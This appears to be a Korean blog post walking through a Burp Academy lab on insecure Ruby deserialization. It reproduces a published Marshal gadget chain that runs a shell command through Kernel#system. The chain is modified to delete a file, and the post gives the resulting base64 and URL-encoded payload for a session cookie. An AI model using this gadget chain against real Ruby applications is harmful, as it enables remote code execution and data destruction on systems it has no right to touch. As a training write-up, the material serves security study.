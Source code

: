 ```yaml
---
layout: post
title: "Burp Academy-안전하지 않은 역직렬화(Insecure Deserialization) 관련 취약점: Exploiting Ruby deserialization using a documented gadget chain"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, Insecure Deserialization]
toc: true
last_modified_at: 2024-07-12 21:00:00 +0900
---
```



# 개요
- 안전하지 않은 역직렬화(Insecure Deserialization) 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-ruby-deserialization-using-a-documented-gadget-chain
- 취약점 설명페이지: https://portswigger.net/web-security/deserialization/exploiting
- 난이도: PRACTITIONER (보통)


# 취약점 개요 (Working with documented gadget chains)
- 비록 개짓 체인을 이용한 페이로드를 만들어주는 전용툴이 존재하지 않더라도 exploit을 설명하는 온라인 문서가 있다면, 적혀있는 내용을 바탕으로 코드를 작성해 페이로드를 생성할 수 있다. 완전히 제로에서부터 시작해서 페이로드를 만드는 것 보다는 훨씬 쉽다. 


# 문제 개요
- 이 랩은 직렬화 베이스의 세션 관리 메커니즘을 사용하고 있다. 
- 또한 루비 온 레일즈 프레임워크를 사용하고 있다. 
- 개짓체인을 통해 RCE를 실행할 수 있는 문서화된 exploit이 존재한다. 
- 랩을 풀려면 문서화된 exploit을 찾고, 그 것을 사용해 RCE 페이로드를 포함하는 악의적인 직렬화 오브젝트를 만든다. 
- 그러고 나서 오브젝트를 웹 사이트에 전달하여 calros 유저의 홈디렉토리에 있는 morale.txt를 삭제하면 된다. 
- wiener:peter 크레덴셜로 로그인할 수 있다. 

```
This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework.

To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter
```

# 도전 
너무 완벽하게 하려고 하는게 안 좋을 수도 있다. 그냥 그런가보다 하고 일단 넘어가는게 좋을 때도 있다. 지금이 그렇다 .

일단 정답을 보면서라도 풀어보자. 
## 로그인한 후 확인
로그인해서 세션 쿠키를 확인해보면 루비베이스인 것을 알 수 있다. 

## 페이로드 생성 
"Universal Deserialisation Gadget for Ruby 2.x-3.x" 로 검색해보면 웹 문서를 찾을 수 있다. 

https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html 의 스크립트는 다음과 같다. 

```rb
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "id")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts payload.inspect
puts Marshal.load(payload)
```

- id를 실행하고자 하는 커맨드인 `rm /home/carlos/morale.txt`로 변경한다. 
- 마지막 두개의 라인을 `puts Base64.encode64(payload)`로 변경한다. 
- base64 모듈을 사용할 수 있도록 `require "base64"`를 추가해준다. 

다음과 같다. 

```rb
require "base64"
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
# puts payload
puts Base64.encode64(payload)
```

위의 코드를 [onlinegdb.com](https://www.onlinegdb.com/online_ruby_compiler) 에서 실행시켜본다.  

결과 값을 Base64인코딩해서 페이로드를 완성한다. 

완성된 값은 다음과 같다. 

```
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06
OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBp
b286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVh
ZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRl
YnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdl
bTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2Rf
aWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxl
LnR4dAY7DFQ7EjoMcmVzb2x2ZQ==
```

![](/images/burp-academy-serial-7-1.png)

이 페이로드에는 개행문자가 들어가 있으므로 개행문자를 없앨 필요가 있다. 다음과 같이 한다. 

```sh
echo "BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06
OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBp
b286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVh
ZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRl
YnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdl
bTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2Rf
aWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxl
LnR4dAY7DFQ7EjoMcmVzb2x2ZQ==" | tr -d "\n\r"
```

위 명령으로 얻어낸 페이로드는 다음과 같다.

```
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2RfaWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAY7DFQ7EjoMcmVzb2x2ZQ==
```

그리고 이 것을 웹에서 전송해야 하므로 Burp Decoder를 사용해서 URL인코딩한다. 다음과 같다. 

```
%42%41%68%62%43%47%4d%56%52%32%56%74%4f%6a%70%54%63%47%56%6a%52%6d%56%30%59%32%68%6c%63%6d%4d%54%52%32%56%74%4f%6a%70%4a%62%6e%4e%30%59%57%78%73%5a%58%4a%56%4f%68%56%48%5a%57%30%36%4f%6c%4a%6c%63%58%56%70%63%6d%56%74%5a%57%35%30%57%77%5a%76%4f%68%78%48%5a%57%30%36%4f%6c%42%68%59%32%74%68%5a%32%55%36%4f%6c%52%68%63%6c%4a%6c%59%57%52%6c%63%67%59%36%43%45%42%70%62%32%38%36%46%45%35%6c%64%44%6f%36%51%6e%56%6d%5a%6d%56%79%5a%57%52%4a%54%77%63%37%42%32%38%36%49%30%64%6c%62%54%6f%36%55%47%46%6a%61%32%46%6e%5a%54%6f%36%56%47%46%79%55%6d%56%68%5a%47%56%79%4f%6a%70%46%62%6e%52%79%65%51%63%36%43%6b%42%79%5a%57%46%6b%61%51%41%36%44%45%42%6f%5a%57%46%6b%5a%58%4a%4a%49%67%68%68%59%57%45%47%4f%67%5a%46%56%44%6f%53%51%47%52%6c%59%6e%56%6e%58%32%39%31%64%48%42%31%64%47%38%36%46%6b%35%6c%64%44%6f%36%56%33%4a%70%64%47%56%42%5a%47%46%77%64%47%56%79%42%7a%6f%4d%51%48%4e%76%59%32%74%6c%64%47%38%36%46%45%64%6c%62%54%6f%36%55%6d%56%78%64%57%56%7a%64%46%4e%6c%64%41%63%36%43%6b%42%7a%5a%58%52%7a%62%7a%73%4f%42%7a%73%50%62%51%74%4c%5a%58%4a%75%5a%57%77%36%44%30%42%74%5a%58%52%6f%62%32%52%66%61%57%51%36%43%33%4e%35%63%33%52%6c%62%54%6f%4e%51%47%64%70%64%46%39%7a%5a%58%52%4a%49%68%39%79%62%53%41%76%61%47%39%74%5a%53%39%6a%59%58%4a%73%62%33%4d%76%62%57%39%79%59%57%78%6c%4c%6e%52%34%64%41%59%37%44%46%51%37%45%6a%6f%4d%63%6d%56%7a%62%32%78%32%5a%51%3d%3d
```

이 값을 세션쿠키에 설정해서 보내본다. 그러면 500응답과 함께 에러 스택 트레이스같은 것이 돌아온다. 

![](/images/burp-academy-serial-7-2.png)

그리고 문제가 풀렸다는 메세지가 출력된다. 

![](/images/burp-academy-serial-7-success.png)


## 페이로드를 전송 


# 참고 URL
- (2018년 11월) Ruby 2.x Universal RCE Deserialization Gadget Chain: https://www.elttam.com/blog/ruby-deserialization/#content <-- 여기를 읽고 있다.
- (2022년 4월) Universal Deserialisation Gadget for Ruby 2.x-3.x: https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html